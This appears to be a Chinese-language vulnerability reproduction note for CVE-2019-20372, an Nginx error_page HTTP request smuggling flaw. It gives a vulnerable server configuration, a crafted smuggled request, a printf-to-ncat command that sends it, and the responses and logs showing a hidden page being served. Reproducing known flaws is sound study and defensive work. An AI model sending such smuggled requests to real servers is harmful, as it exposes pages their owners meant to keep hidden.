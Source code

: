 ```yaml
---
title: "（CVE-2019-20372）Nginx error_page 请求走私漏洞"
id: zhfly3048
---
```


# （CVE-2019-20372）Nginx error_page 请求走私漏洞

## 一、漏洞简介

Nginx 1.17.7之前版本中 error_page 存在安全漏洞。攻击者可利用该漏洞读取未授权的Web页面。

## 二、漏洞影响

Ngnix < 1.17.7

## 三、复现过程

> 错误配置

```
server {
 listen 80;
 server_name localhost;
 error_page 401 http://example.org;
 location / {
 return 401;
 }
}
server {
 listen 80;
 server_name notlocalhost;
 location /_hidden/index.html {
 return 200 'This should be hidden!';
 }
} 
```

这时候我们可以向服务器发送以下请求

```
GET /a HTTP/1.1
Host: localhost
Content-Length: 56
GET /_hidden/index.html HTTP/1.1
Host: notlocalhost 
```

我们看一下服务器是怎么处理的

```
printf "GET /a HTTP/1.1\r\nHost: localhost\r\nContent-Length: 56\r\n\r\nGET
/_hidden/index.html HTTP/1.1\r\nHost: notlocalhost\r\n\r\n" | ncat localhost 80 --noshutdown 
```

等于说是吧两个请求都间接的执行了，我们看一下burp里面的返回值

```
HTTP/1.1 302 Moved Temporarily
Server: nginx/1.17.6
Date: Fri, 06 Dec 2019 18:23:33 GMT
Content-Type: text/html
Content-Length: 145
Connection: keep-alive
Location: http://example.org
<html>
<head><title>302 Found</title></head>
<body>
<center><h1>302 Found</h1></center>
<hr><center>nginx/1.17.6</center>
</body>
</html>
HTTP/1.1 200 OK
Server: nginx/1.17.6
Date: Fri, 06 Dec 2019 18:23:33 GMT
Content-Type: text/html
Content-Length: 22
Connection: keep-alive
This should be hidden! 
```

再一下nginx服务器里面的日志

```
172.17.0.1 - - [06/Dec/2019:18:23:33 +0000] "GET /a HTTP/1.1" 302 145 "-" "-" "-"
172.17.0.1 - - [06/Dec/2019:18:23:33 +0000] "GET /_hidden/index.html HTTP/1.1" 200 22 "-" 
```